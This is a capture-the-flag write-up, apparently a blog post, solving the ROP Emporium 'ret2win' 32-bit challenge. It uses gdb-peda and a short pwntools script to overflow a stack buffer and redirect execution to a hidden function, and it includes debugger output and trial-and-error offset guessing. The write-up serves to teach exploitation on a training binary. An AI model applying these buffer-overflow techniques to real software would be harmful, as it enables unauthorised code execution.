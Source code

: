 ```yaml
---
layout: post
title: "ropemporium - ret2win 32bit"
---
```


This is a writeup on the (32bit) ret2win challenge from ropemporium
## Description
_Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack._

## Starting off
first I run the executable normally and test what it does.
upon first run:
```
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> ayylmao

Exiting
```
Then tried to send 50 bytes as input
```
python -c "print 'A'*50" | ./ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Segmentation fault
```
I opened the executable in gdb, I am using peda to help out.
```
gdb-peda$ info functions 
All defined functions:

Non-debugging symbols:
0x080483c0  _init
0x08048400  printf@plt
0x08048410  fgets@plt
0x08048420  puts@plt
0x08048430  system@plt
0x08048440  __libc_start_main@plt
0x08048450  setvbuf@plt
0x08048460  memset@plt
0x08048480  _start
0x080484b0  __x86.get_pc_thunk.bx
0x080484c0  deregister_tm_clones
0x080484f0  register_tm_clones
0x08048530  __do_global_dtors_aux
0x08048550  frame_dummy
0x0804857b  main
0x080485f6  pwnme
0x08048659  ret2win
0x08048690  __libc_csu_init
0x080486f0  __libc_csu_fini
0x080486f4  _fini
gdb-peda$
```
I checked the address of `ret2win`, which is `0x8048659`
Then I copied a pattern to a file called `payload` to help me out finding the offset I need for the return address.
```
gdb-peda$ pattern create 54
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA'
gdb-peda$ shell
pwn@pwnlab:~/ropemporium/ret2win/32$ python -c "print 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA'" > payload
pwn@pwnlab:~/ropemporium/ret2win/32$ exit
gdb-peda$ r < payload 
Starting program: /home/qh/CTF/ropemporium/ret2win/32/ret2win32 < payload
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd2f0 ("AAA%AAsAABAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA\n")
EBX: 0x0 
ECX: 0xf7f9a89c --> 0x0 
EDX: 0xffffd2f0 ("AAA%AAsAABAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA\n")
ESI: 0xf7f99000 --> 0x1d4d6c 
EDI: 0x0 
EBP: 0x41314141 ('AA1A')
ESP: 0xffffd320 --> 0xf7fe59a0 (push   ebp)
EIP: 0x8000a41
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------code-------------------------------]
Invalid $PC address: 0x8000a41
[-------------------------------stack------------------------------]
0000| 0xffffd320 --> 0xf7fe59a0 (push   ebp)
0004| 0xffffd324 --> 0xffffd340 --> 0x1 
0008| 0xffffd328 --> 0x0 
0012| 0xffffd32c --> 0xf7ddce81 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd330 --> 0xf7f99000 --> 0x1d4d6c 
0020| 0xffffd334 --> 0xf7f99000 --> 0x1d4d6c 
0024| 0xffffd338 --> 0x0 
0028| 0xffffd33c --> 0xf7ddce81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08000a41 in ?? ()
gdb-peda$ 
```
Looks like my input was long enough, just have to remove one character, so my padding is 53 bytes.
So with this exploit the stack frame should look like this:
```
+-----------------+
|  padding of 53  |
+-----------------+
|    0x8048659    |
+-----------------+
```
Here is my exploit script, I like to use `pwntools` because it makes things easier for me.
```python
from pwn import *

payload = 'A'*53
payload += p32(0x8048659)
print payload
```
I then run:
```
python exploit.py | ./ret2win32
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Segmentation fault
```
Hm, that did not work.
I copied the exploit output into a file and ran it with gdb.
```
gdb-peda$ r < payload 
Starting program: /home/qh/CTF/ropemporium/ret2win/32/ret2win32 < payload
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd2d0 ('A' <repeats 49 times>)
EBX: 0x0 
ECX: 0xf7f9a89c --> 0x0 
EDX: 0xffffd2d0 ('A' <repeats 49 times>)
ESI: 0xf7f99000 --> 0x1d4d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd300 --> 0xf7fe0041 (add    BYTE PTR [eax],al)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd300 --> 0xf7fe0041 (add    BYTE PTR [eax],al)
0004| 0xffffd304 --> 0xffffd320 --> 0x1 
0008| 0xffffd308 --> 0x0 
0012| 0xffffd30c --> 0xf7ddce81 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd310 --> 0xf7f99000 --> 0x1d4d6c 
0020| 0xffffd314 --> 0xf7f99000 --> 0x1d4d6c 
0024| 0xffffd318 --> 0x0 
0028| 0xffffd31c --> 0xf7ddce81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```
So I need to have a smaller padding.
I tried a padding of 49. Which got the same result.
I then decided to try a padding of 44 bytes, and this was the result.
```
python exploit.py | ./ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault
```
Success!

link to the challenge: https://ropemporium.com/challenge/ret2win.html